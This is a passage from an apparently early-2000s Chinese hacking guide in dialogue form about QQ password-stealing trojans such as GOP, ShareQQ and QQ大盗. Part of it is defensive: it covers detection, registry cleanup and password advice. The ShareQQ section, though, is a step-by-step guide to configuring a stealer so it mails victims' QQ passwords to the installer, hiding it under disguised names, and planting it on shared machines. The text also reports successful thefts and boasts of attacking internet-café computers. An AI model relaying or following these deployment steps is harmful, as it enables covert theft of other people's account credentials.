### ◎ GOP 木马的检查与清除

> “可是榕哥，俺咋知道中没中 GOP 的道啊？”  
> “刚才不是说了吗，最直接的方法是去腾讯的官方网站 download 一个防 GOP 木马软件 KILLGOP。”（http://210.51.121.22/download/KillGop.exe，运行时如图 2-1-9 所示。）  
> 注意：图中的清除工作只限于系统文件夹之内进行。

> “这还有什么用，万一它不在系统文件夹内呢，干瞪眼啊？”阿瓜问。  
> “所以啊，要用别的工具来搞定它嘛！”榕哥嘿嘿一笑。

如果木马安装在非 Windows 文件夹下，这个 GOP 工具就显得太简单了。所以向你推荐一款由金山出品的“GOP 木马专杀工具”，它提供了一个完全的解决方案，包括扫描内存、注册表以及所有文件夹，囊括了 GOP 的所有可藏身之地。真正做到了心狠手辣，斩不留情。要知道，对敌人的仁慈，可是对自己的残忍。你愿意自残吗？当然不愿意嘛！所以……干吧！

从金山的官方网站下载：Duba_GOP.EXE（http://www.iduba.net/download/othertools/Duba_GOP.EXE）后，直接运行，界面如图 2-1-10 所示。不需改变默认配置，直接点击右上角的图标即可开始清除。

### 隐瓜秘读

刚才在讲述 GOP 安装过程中，提到 GOP 会修改注册表的启动项，而且在内存中运行时，是一个隐藏的进程（用 Ctrl+Alt+Del 是看不到它的。这几乎是所有同类工具的共同特点啦）。都说“人怕出名猪怕壮”嘛，谁叫它 GOP 那么招摇，所以出现了专门清除它的工具，让一般用户可以很容易地置它于死地。目前更多的同类工具被开发出来，有没有“亘以不变应万变”的方法来清除它们呢？

> 呵呵，欲知后事如何，请听下回分解。  
> 阿瓜：“榕哥，就不要耍我了，你快点说吧。”  
> “Follow me.”






### 2.1.2 后台密码窃取——Share QQ

Share QQ 的最新版本是 4.5，也是一款后台窃取 QQ 密码的工具。

### ④ Share QQ 的特点

适用于任何版本的 QQ 和 98 及 2000 操作系统，防杀毒软件，加强自身保护，增加对认证邮箱的支持和对 QQ1220 版本的支持；内附卸载文件：ReleaseShareQQForV4.x。

### ⑤ Share QQ 的安装方法

打开下载回来的压缩包可以得到以下文件：

- ShareQQ4.5.exe —— 服务程序（主程序）
- ConfigShareQQ.exe ——（180824 Bytes）配置服务程序的程序
- ReadMe.txt —— 自带的说明文件

可是这东西要怎么用呢？……

第一步：运行 ConfigShareQQ.exe，配置 ShareQQ。点击读取服务端，选择你要配置的文件（如图 2-1-11）。



○ 进行邮件设置（如图 2-1-12）。发信服务器——顾名思义，就是填写发送邮件的服务器。ShareQQ 支持 SMTP 认证的服务器，这是有些工具不具备的。最好填写不需要 SMTP 认证的服务器……

提示：21cn.com 的邮件服务器不需要验证，它的 IP 是 202.104.32.230，对于 ShareQQ 来说，of course——首选。



发送邮件地址——对于需要 SMTP 认证的服务器，在这里填上你的用户名（前提是你已经注册过了），并在[邮件密码]里面填入密码。如果是 21cn 的，就不必了，你甚至可以随便填一个地址，就像图中的 sender@21cn.com。

接收邮件地址——下面填上你自己用来接收 QQ 密码的信箱。  
邮件主题——使用默认的就可以了。  
发信间隔——就是隔多久检测一次有没有新的密码被记录，若有就发送。

> “这么样就搞定了吧！”  
> “Maybe yes, maybe no~”  
> “好啦，你就不要 eyes on me 啦！”

其实这些都配置完成以后，还有一个必要的步骤——“邮件测试”，测试程序在这台机器上能否发出信件，发不出的话，就说明配得再好，还是垃圾一个。（如图 2-1-13）





2-1-14 隐藏设置

图 2-1-13 所示的是发送成功的显示情况。如果显示“发信失败”的话，说明这台机器不适合这款软件，那只好换别的机器了。注意：建议在提示发送成功后，登录到接收邮箱，确认收到了信件。邮件的主题是“ShareQQ Email Test --”，里面说明了你的邮件配置。

> 如果你愿意，还可以对具体的参数进行隐蔽设置（如图 2-1-14），增加程序的隐蔽性。

服务文件名——程序运行后将会改名为你所设的名字在系统中驻留，在任务管理器中是隐藏进程。  
钩子文件名——可以任意改为 Windows 系统合法文件名，可以提高隐蔽性。  
注册表键名——写入注册表以备每次重启运行程序的东西，取个隐蔽性强点的名字就可以了。  
备份文件名——取个隐蔽性好的名字即可。  
密码文件名——临时保存密码的文件的名字，这个版本中，它经过了加密处理。

最后，点击“保存设置”，配置即可完成。

### ◎ 植入 ShareQQ

直接运行 ShareQQ.exe 程序会自动搞定剩余操作。如果有人在这台机器上登录 QQ，它的 QQ 号和密码就会发到你的邮箱里。发件人是 JustParadise，主题是你先前设置好的。运行过后，ShareQQ.exe 和 ConfigShareQQ.exe 都可以删除，也可以改名，以便下次使用。

### ◎ ShareQQ 的检查与清除

ShareQQ 可以自行卸载，方法就是通过 ReleaseShareQQForV4.x。直接运行，点击“Search and Release（搜索并释放）”。程序会查找驻存于内存的 ShareQQ、本机系统中残留文件，如果发现，就立即删除（如图 2-1-15），绝对不留余地。


ShareQQ 可以应用于最新版的 QQ，而且系统的兼容性也不错。经过测试，它通过简单明了的设置，成功地获取了 QQ 的密码，并且它内附卸载文件。若不放心，可运行卸载文件进行搜索清除。随后文本继续为叙述性对话与评论内容。

### 随瓜叙读

现有的这类工具多如牛毛，这也许是得到密码最简单直接的方式吧。无非是配置本地隐藏地点与方式、邮件传送方式，再增强隐蔽性（如文件捆绑、窗口伪装等）。其它工具与上述介绍大同小异，根据说明文档也较易上手。近日发现一款工具“QQ大盗”（如图 2-1-16），比较有特色。

#### 2.1.3 密码窃取工具的完全手动检查与清除

于3月刚刚发布，适用于 ICQ 及 QQ 的所有版本，具有以下特点：除具备其它同类软件所有功能之外，还具有更为详实的资料反馈，可以返回诸如号码、昵称、密码、性别、年龄、省份、城市诸多信息。

当搜集 X 条后发送：这点也和 GOP、ShareQQ 不同。与文本文档关联：如“QQ 大盗”该执行文件被意外删除后，仍然能够在当前机器访问文本文档时自动恢复。

2-1-15 查到 ShareQQ 并清除

2-1-16 QQ 大盗的程序界面

经过测试，效果还不错，成功地得到了密码。

榕哥：“现在对小 Q 有点防范意识了吧，我嘴都干了……”阿瓜早有准备，以超光速拿来又一罐旺仔，双手奉上。心里却不住地说：“再看我，再看我就把你喝掉……我求你不要再看我了。”

辩证唯物主义告诉我们，宇宙间的一切事物都有其两面性，都有其相互矛盾的特性。QQ 也不例外，正所谓有矛必有盾，有攻必有守。上面我谈到 QQ 的攻击，讲到密码的窃取和破解。

于是，可怜的善良之辈们，满地都是啦，惊恐万分，惶惶度日。先来看看本地的保卫战：

### 一、推荐！斩草除根！

在网吧或几人共用一台电脑时，你可增加一个本地信息口令。这样即使知道你 QQ 密码，也进不了你的账号。很多人不重视这个口令，认为有 QQ 密码就够了。彻底删除 QQ 安装目录下以你账号命名的文件夹内容后，下次登录服务器会回传基本资料，但聊天记录通常不会恢复。

##### 二、饮水思源

对付窃取密码者，首先要从自身抓起，保管好自己的密码，不放在易被发现的地方。选取密码时应尽量不易破解，长度至少 7 个字符，不要使用生日、名字等个人信息，并加入非字母数字字符。还应定期更改口令，降低被攻击风险。

对于 passsniff 软件（可随 Windows 启动并监视输入密码），可检查 C 盘根目录下 `log.txt` 是否记录了密码和本地信息口令。但这并非万全之策，恶意软件可能改名或转移日志文件，仍需提高警惕。

## 第二章

### 三、阿Q保卫战

可能有朋友说，装个防火墙不就行了吗？（榕哥回头看看阿瓜，阿瓜连忙摆摆手：“不是我，不是我，真的不是我！”）唉，这位仁兄看来也是……不说了。确实防火墙能防止一些病毒程序、黑客木马程序的入侵以及 IP 探测和攻击，但是我在前面就讲过 QQ 炸弹大多数遵循 TCP/IP 协议以正常途径发送，这些防火墙也总不至于更改 TCP/IP 协议，拦截正常的信息包吧！如果这样的话，你的 QQ 也别想用起来。

我曾经对网吧以及一些局域网内的机器进行轰炸，这些网吧和局域网应该总有一个普通或是更高级的防火墙吧！但不好意思每次我都得逞了。那怎么办呢？下面这个方法经过本人缜密地验证，完全有效，包你满意，无效退货。

Sockscap 这个软件听说过没有？它可是免费上网或是少费上网的好东西。它通过设置一个 sock5 或 sock4 代理服务器地址，再添加你所要运行的程序，如 `oicq.exe`。这样程序首先通过代理再上 Internet，对方通过 QQ 探测程序看到的你的 IP 其实是那个代理地址。

Sock 代理哪里寻？有些网站就免费提供，或者你自己亲自用 proxyhunter 代理猎手搜索一下。谈到这，有人会说不就是隐藏自己的 IP 吗？是的，但隐藏 IP 并不是件容易的事，Anonymous cookie、DC internet services pack 等隐藏本地 IP 的软件很多人都说没用，而且也可能查不到对方的 IP 地址。

- **猛虎落地势**：赶紧向对方求饶——这一神奇的招数在《乱马 1/2》里面就叫做猛虎落地势，很威风吧？一般来说，对方不是你的死敌、情敌的话，也就乐此住手了，达到他的目的了呗。
- **三十六计，走为上计**：下线，唱惹不起总躲得起吧。这样，任凭他有通天的本事，又能奈我何！

## 你不会只有一个 QQ 帐号吧？

> “我靠，这叫什么绝招，欺骗我感情，该打——”阿瓜又一阵乱殴。  
> “好啦，开个玩笑嘛！”

在知道了密码窃取工具的工作原理后，让我们来一起研究如何用“以不变应万变”的方法，来手动清除这一类木马。刚才说到 GOP 这个招摇的小东西，现在就来看看怎么把它从系统中干掉，可一定要心狠手辣。

### ◎ 揪外安内（检查内存）

几乎所有的这类木马都在 Windows 的任务窗口里看不到，需要用别的办法才行。这里我们用 Windows 自带的系统信息程序把它揪出来。点击“开始”按钮，选择“运行”命令，输入 `msinfo32`，出现“Microsoft 系统信息”窗口。依次点选 系统信息→软件环境→正在运行的任务，右边栏里会列出所有运行着的进程。图 2-1-17 中，发现了可疑进程 `Sysexhook.exe`，这就是 GOP 的后台进程。

2-1-17 发现可疑进程

### ◎ 打出我们的口号：打倒反动势力，肃清封建残余

既然已经发现了木马的踪迹，就要把它干掉，要彻底，要坚决清理一切“反动势力”。

为了安全起见，首先应该断开与网络的连接。如果是拨号上网，右击系统托盘里面的网络连接图标，选择“断开”就可以了。如果是局域网连接到因特网，右击桌面上的“我的电脑”图标，选择“属性”，在弹出的对话框中选择“设备管理器”选项卡，并在下面的列表中选择“网络适配器”，找到你正在使用的网卡，双击打开如图 2-1-18 的对话框，点选“在当前配置中禁用”，断开与网络的连接。

木马是伴随系统启动开始运行的。这里要利用到另一个 Windows 自带的“系统配置实用程序”（启动方法：开始→运行→`msconfig`）。在图 2-1-19 所示的界面下，列出了开机自运行的所有程序，包括“启动”组和通过注册表启动的程序。高亮的“WindowsAgent”正是 GOP 的启动项。可以直接取消掉它前面的勾选，达到禁止它自启动的目的。

2-1-18 系统配置实用程序

2-1-19 启动选项

“系统配置实用程序”是一个易用性极强的工具，可以方便地用来禁用或者启用自启动的程序，在 Windows 98 和 XP 里面都包括了它。

还有一个问题，这样虽然禁止了它的自启动，但是它的启动项仍然留在注册表中，给系统造成了隐患。像狂犬病毒，会潜伏的哦，所以不想它发作就要在它发作之前扫清它。所以我们要直捣黄龙，深入敌后，实行“光光”政策。

点击开始→运行→`regedit`，打开“注册表编辑器”，进入 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run` 主键（如图 2-1-20），删除 `WindowsAgent` 项，GOP 就无法自启动了。

```text
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
```

就是注册表中开机自启动的程序所在的地方，几乎所有的此类木马都在这个地方建立启动项。最后不要忘记进入文件的存储路径删除木马文件，比如 `C:\Windows\Sysexhook.exe`。

以上几个步骤次序不是一成不变的，可以根据不同的情况而定。

> “好了！”榕哥松一口气。

“可是现在说来说去也只说了些理论知识嘛，刚才不是还口口声声地要理论联系实际吗？”阿瓜说。

“哦，那就拿杀除 ShareQQ 来说说吧！”

### 第一步：追根求源，毁尸灭迹

说到底，这些木马程序都在注册表里留下了它们犯罪的证据，它们完全有权不说话，它所做的每一件事都将会成为呈堂证供。那么它在注册表留了多少东西、做了多少手脚，都彻底地来它个毁尸灭迹。

打开注册表 `regedit.exe`，查看 `[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run]`，发现多了一个 `netconfig` 的字符串，立即删除。重启机器，发现 `netconfig` 字符串自行恢复。

### 第二步：帮凶！死路一条！

每一个成功男人的背后都有一个伟大的女人在支持他。同样的，这些木马的背后也有一个类似的东西在协助它。

既然是后台已经运行，一定有程序在运行。发现 `netconfig` 字符串的启动程序是 `windows/system` 目录下 `spolsv.exe`，于是打开 Windows 优化大师里的进程管理，停止正在运行的 `spolsv.exe` 程序，然后将其删除，顺便删除的还有 `debug.dll`、`MSIME5f594f58.dll` 两个文件，因为它们的生成时间和 `spolsv.exe` 是相同的，肯定和它有关系。删除 `netconfig` 字符串后重启，发现 `spolsv.exe` 重新生成。

### 第三步：母燕归巢！致命一击！——主谋，我看你哪里逃！

任何事的发生发展必然有它的主要因素，我们就是要找到这个因素，消灭它，以杜绝一切危害。

像前面的两步，都只能说是打草惊蛇，现在小蛇已经耐不住啦，哈哈，小蛇已出洞，原形毕露，那还等什么，干掉它！

2-1-20 鼠标所指的正是 ShareQQ 的自启动项

重启后注册表和后台程序自动恢复，一定是有程序在 Windows 启动时进行了恢复。重新回到注册表，查找 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce`，发现 `winin` 项，启动的是 Windows 目录下的 `winin.exe` 程序。看了下生成日期，与 `spolsv.exe` 相同。元凶找到，删除程序，删除 `winin` 字符串，删除前面所需要删除的内容，重启，发现成功地清除了 ShareQQ。

#### 2.1.4 其它密码窃取工具的防范方法

“顺便再给你说一说其它几个常见的密码窃取工具，如果你感兴趣，应该可以从中总结出对付这类工具的一般规律。”榕哥感慨手中的旺仔，体会阿瓜的一番诚意而说道。

### ◎ OICQThief 1.5 版

监听原理：将原 QQ 主文件 `OICQ.EXE` 改名为 `o.exe`，用监听程序替代 QQ 主文件。1.5 版监听程序为 60KB，发送的目的邮箱地址放在 Windows 下 `system` 目录内，文件名为 `oiqcfg`。还有一个 `firstrun.dat` 文件也在其中。

启动：QQ 外壳，不驻留，但运行退出时 QQ 有时不能完全退出，导致下次 QQ 可能无法启动。外在表现——QQ 目录下出现两个企鹅头像，一个为 `O.EXE`，一个为 `oicq.exe`，`oicq.exe` 为 60K 左右。

对策：删除 QQ 目录中的伪主文件，将 `O.EXE` 更名为主文件 `OICQ.EXE`，同时删除 `system` 中的 `OICQCFG` 和 `firstrun.dat`。

综述：手法简单，隐蔽性差，很容易判断，属入门级的盗窃程序。

> “拜托，给点高级的看看嘛！”阿瓜说。随后两人继续调侃：“好好好，那就看看这一款吧！21 世纪最新产品，手工精巧，价格便宜……”“居家旅行，杀人灭口，必备道具~”  
> “知音哪”两人相视一笑，同时来个 kiss，众人晕倒，他俩转过身来，眨吧眨吧眼，异口同声：“我们惺惺相惜，情不自禁！”再倒一片！

### ◎ QQ 密码侦探 1.1 版

监听原理：将监听程序伪装成 Windows 的启动文件 `internat.exe`，将原 `system` 目录内的同名文件拷入 Windows 目录，将本目录文件更名为 `SMAXINTE.EXE`，从而实现启动隐身后台运行。Windows 目录中的 `sqwin.ini` 是其运行记录文件。注册表中新建 3 个主键：

```text
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\SysTASK
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\SysTASK
HKEY_USERS\.DEFAULT\Software\Microsoft\Windows\CurrentVersion\SysTASK
```

发送的邮箱、密码个数等信息放在多个注册表路径中，并通过系统相关位置实现驻留与伪装。

```text
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\SysTASK
\Software\Services\Security\Comrion\SoftWar\ControlsFolder\Reconciliation
\Policies\Retriction\Adspopware\ConnectionWizard
\Explorer\ShellServiceObjectDelayLoad\Windows\MessagingSubsystem\ProtectedStorage
```

启动：随系统启动，驻留后台运行。外在表现：Windows 目录下存在 `internat.exe` 和 `sqwin.ini` 文件；`system` 目录下 `internat.exe` 长度约 196K，同时出现 `smaxinte.exe` 文件，长度约 37K。

对策：删除 Windows 目录中的 `internat.exe` 和 `sqwin.ini` 文件。由于 `system` 中的监听程序正在运行，无法直接删除，可采用替换和重命名方式处理。

- 用内存管理程序移掉内存中的 Internat，然后删除 `system` 中的 `Internat.EXE`，将 `smaxinte.exe` 改名为 `internat.exe`。
- 将 `Internat.EXE` 的系统属性改为普通，退到纯 DOS 下删除 `system` 中的 `Internat.EXE`，再将 `smaxinte.exe` 改名为 `Internat.exe`。

```text
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\SysTASK
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\SysTASK
HKEY_USERS\.DEFAULT\Software\Microsoft\Windows\CurrentVersion\SysTASK
```

综述：隐藏性较强，伪装较好，属于专业级盗窃程序；文中随后出现若干对话式评论内容。

### ☻ QQspy4.01 OICQ 密码监听记录工具 4.01

监听原理：将主文件 `QQSPY40.EXE` 和库文件 `oicqhook.dll` 放入 `system` 目录，在注册表启动项中添加开机运行，实现后台监听。

将 `oicqhook.dll` 放入系统目录 `system` 中，在注册表 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run` 键内添加开机运行项：`Oicqpass "QQspy40.exe"`，从而实现开机后后台运行。

```text
HKEY_CURRENT_USER\Software\Oicq40\"Email"
```

启动：开机自动驻留后台。外在表现：Windows 的 `system` 目录下出现 `QQSPY40.EXE` 和 `oicqhook.dll`。

对策：删除注册表中相关 Run 项与 Oicq40 配置后重启，再删除 `system` 目录中的 `QQSPY40.EXE` 和 `oicqhook.dll`。

综述：虽然采用后台运行，但隐藏性较差，了解系统与注册表即可较容易发现。

> “好啦，差不多了，最后再免费赠送你一款吧……”等对话式内容。

### ☻ Qeyes 潜伏猎手

监听原理：主文件 Qeyes 分身并改头换面潜伏在 `system` 目录中，其 3 个分身分别为：

- `C:\WINDOWS\SYSTEM\sysreg.exe`
- `C:\WINDOWS\SYSTEM\regservice32.exe`
- `C:\WINDOWS\SYSTEM\rasint.dll`

随后在注册表中加入“双保险”开机运行程序，并在系统正常运行后继续追加新的分身与启动项。

```text
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\regservice
"C:\windows\system\regservice32.exe"

